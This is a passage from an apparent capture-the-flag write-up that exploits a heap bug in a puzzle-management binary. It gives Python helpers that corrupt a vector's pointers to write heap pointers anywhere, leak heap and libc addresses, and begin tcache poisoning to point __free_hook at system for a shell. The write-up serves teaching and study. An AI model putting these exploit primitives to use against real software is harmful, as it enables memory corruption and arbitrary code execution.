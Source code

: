 We can now corrupt the pointers of the vec_puzzle vector.
If we point the `end` vector to some place on the heap and make sure that there is enough capacity (`cap - end >= 8`), then the next `push_back` in `add_puzzle` will write the pointer to the newly allocated puzzle at the location we set `end` to.
This primitive allows us to write a pointer to an allocated `Puzzle` struct anywhere we want on the heap.
Let's make a function for that:

```python
def write_puzzleptr_to(addr, base=None):
    add_puzzle("write", 92, flat({
        0x400: [addr, addr, addr + 8]
    }, filler=b"\0"))
    delete_puzzle(0)
    if base:
        add_puzzle("write", 92, flat({
            0x400: [base, base + 16, base + 24]
        }, filler=b"\0"))
        return

    add_puzzle("write", 92, flat({
        0x400: [orig_vec_beg, orig_vec_end, orig_vec_cap]
    }, filler=b"\0"))
```

We also make sure to reset the vector again after doing our corruption, so that we don't accidently corrupt much more later in our exploits.
Using this primitive, we can overwrite the `data` and `size` pointer of a `title` string to leak a large portion of the heap:

```python
string_addr = beg + 0x30
info("string_addr %#x", string_addr)
write_puzzleptr_to(string_addr + 4) # this will set size to the topmost 4 bytes of a puzzle address, so it will be large (but only about 16 bit, because the topmost 2 bytes are always zero)

write_puzzleptr_to(string_addr) # here we set the data pointer to point to an allocated puzzle
```

When we list the puzzles the next time (using any action that requires us to enter a puzzle id), we get a large heap dump as a title of one of the puzzles. 
We can find a libc address at some offset within this dump.

## Tcache corruption to overwrite `__free_hook` / spawn a shell
After leaking all the addresses, we can now turn to spawn a shell.
The plan here is that we want a string to be allocated at the place of `__free_hook` with controlled data.
By setting the data to the address of `system`, this will then set `__free_hook` to `system`, meaning we can execute shell commands by freeing chunks.

We do the familar tcache next pointer corruption to achieve this. First, we free some puzzles, so their structs will be placed into a tcache (a single-linked list):
